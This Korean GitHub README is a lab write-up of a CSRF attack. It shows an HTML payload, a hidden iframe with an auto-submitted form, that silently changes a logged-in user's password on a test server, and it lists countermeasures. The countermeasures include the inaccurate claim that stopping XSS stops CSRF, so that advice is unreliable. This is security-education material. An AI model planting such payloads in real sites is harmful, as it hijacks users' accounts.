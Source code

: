 # CSRF 모의해킹
CSRF(Cross-Site Request Forgery) 공격은 인증된 사용자의 권한을 사용하여 악의적인 요청을 보내는 공격입니다. 이번 모의해킹에서는 공격자가 악성 요청을 보내어 다른 사용자의 비밀번호를 임의로 수정하는 공격을 다루었습니다.

## 공격 실습

공격자는 다음과같은 HTML 코드를 게시글에 작성합니다.
```html
<iframe name="ifr" width=0 height=0></iframe>
<FORM target="ifr" id="chpw" METHOD="POST" action="http://192.168.219.180/login/changepw_do.php">
<INPUT type="hidden" name="pw" value="1234">
</FORM>
<script>document.getElementById("chpw").submit();</script>
패스워드 변경 1234
```
해당 코드를 살펴보면 HTML 의 iframe을 이용하여 width 와 height를 모두 0으로 설정하여 보이지 않도록하고 비밀번호를 1234로 변경하도록하는 POST 요청을 보냅니다.

**1. 사용자의 원래 비밀번호**

![csrf_userpw](https://github.com/Tree1st/HK/blob/master/webH/image/csrf/csrf_userpw.png)

**2. 사용자가 CSRF 공격이포함된 게시글 클릭**

![csrf_click](https://github.com/Tree1st/HK/blob/master/webH/image/csrf/csrf_click.png)

**3. 사용자의 비밀번호가 변경됨**

![csrf_changedpw](https://github.com/Tree1st/HK/blob/master/webH/image/csrf/csrf_changedpw.png)

## 대응 방안
- CSRF 토큰 사용: 서버 측에서 발급한 CSRF 토큰을 포함하여 요청을 보내도록 클라이언트에게 요청합니다. 이 토큰은 세션에 저장되어 있는 정보를 이용하여 생성됩니다. 공격자가 이 토큰을 알지 못하면 CSRF 공격을 수행할 수 없습니다.

- XSS 공격 방지: CSRF 공격은 기본적으로 XSS 공격에 기반한 공격이기 때문에 XSS 공격을 방어하면 CSRF 공격을 방어 할 수 있습니다.
